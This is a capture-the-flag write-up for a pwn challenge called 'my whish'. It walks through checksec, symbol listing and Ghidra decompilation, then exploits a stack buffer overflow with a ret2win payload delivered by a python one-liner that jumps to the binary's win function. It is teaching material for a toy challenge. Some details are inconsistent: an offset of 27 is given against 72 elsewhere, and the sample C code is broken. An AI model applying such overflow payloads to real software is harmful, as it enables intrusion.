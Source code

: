# challenge Name:
my whish
![](../images/mywhish.png)

```
I want my wish to be realized quickly by Santa Claus. Help me!

NB: exploit the vuln and contact @_ yhack _ on discord .

Author: z0r_

```

The chall give us a binary file.
as it is pwn challenge, the  things to do : 

# check the file type:

```bash
file mywishc
mywishc: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c44a06ef7233ac2c08fb46b4af8f552eaffb5f7b, for GNU/Linux 3.2.0, not stripped
```
Elf 64-bit , ..., Not stripped so it will be easy for us to  reverse engeneering the binary

# check security mitigation on the file
```bash
 $pwn checksec mywishc
[*] '/media/top0n3/data/ctf/christmas2k24/pwn/mywishc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
Deam , no mitigation found. that is a security risk .
- The binary not has PIE:  the address of each symbole on .text section will be static for each time we launch the binary. 
For example, we can know that each time we run the prog the main function will be at xxxxxx address.
that make buffer overflow exploitation very easy.
- It also don't deactivate a stack execution.
    with that, if we can inject shellcode on stack and make program jump to the location of our shellcode, we can execute it 

after we know that the binary don't has security mitigation, let 
# understand how the program work

```bash
./mywishc
Bienvenue jeune hacker. Entrez votre souhait et le père Noel le réalisera !
Entrez votre souhait : aaaaaaaaaaaaaaaaa
Vous voulez : aaaaaaaaaaaaaaaaa
Revenez plus tard, trop de souhait en attente à réaliser!
```
when we execute the prog, it as us to enter our whish

# found the buffer overflow
```bash
./mywishc
Bienvenue jeune hacker. Entrez votre souhait et le père Noel le réalisera !
Entrez votre souhait : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Vous voulez : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault
```
 - we enter long strings and we get a segfault. Ok that is:
### a buffer overflow in 99% case.
### a short explaination of Buffer overflow
a buffer overflow is a vulnerability that occure when  a program write more data on a local array  variable(stack variable) than the length of the array. for example:
```C
void vuln(void){
    char username [20];
    puts("what is your name");
    gets(name);
    printf("good morning %\n" name);
}

```
if user enter a name with more chars than 20, the buffer overflow occure.
Hope you understand !!!

 
* so we have a buffer overflow, but what can we do with it *
let analyse the program function and see if we can have interesting function to make ret2win
```bash
nm mywishc
000000000040037c r __abi_tag
0000000000404030 B __bss_start
                U __libc_start_main@GLIBC_2.34
....
....
0000000000401207 T main
                 U printf@GLIBC_2.2.5
                 U puts@GLIBC_2.2.5
00000000004010e0 t register_tm_clones
0000000000401070 T _start
0000000000404030 B stdout@GLIBC_2.2.5
0000000000404030 D __TMC_END__
000000000040119e T vuln
0000000000401156 T win
```
we see win function at 0x0000000000401156 address myabe it will give us the flag.
i use ghidra to decompile the prog and this is the win function code:
```C

void win(void)

{
  puts(&DAT_00402008);
  fflush(stdout);
  printf("Tenez ce coupon secret jalousement << CMCTF{XXXX_XXXX_XXXX_XXXX} >>");
  fflush(stdout);
  return;
}
```
interesting: it take no arg and will print the flag .

so now we have all info about the prog. time to exploit the BOF to make program call win function
but how to do that:
 # found BOF offset
    i use gef debugger to found the offset and it is 72

![](../images/gef1.png)
![](../images/gef2.png)

# construct the payload
```
offset = 27
win_address = 0x401156
payload = "a" * offset + b"\x56\x11\x40\x00\x00\x00\x00\x00" 
```

# exploitation
```bash
python3 -c "print('a' * 72 + '\x56\x11\x40\x00\x00\x00\x00\x00')"  | ./mywishc
Bienvenue jeune hacker. Entrez votre souhait et le père Noel le réalisera !
Entrez votre souhait : Vous voulez : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaV@
Bravo ! Vous avez pu obtenir une place privilégiée !
Tenez ce coupon secret jalousement << CMCTF{XXXX_XXXX_XXXX_XXXX} >>Segmentation fault
```
# and we get the flag:
time to write to admin and get the real flag


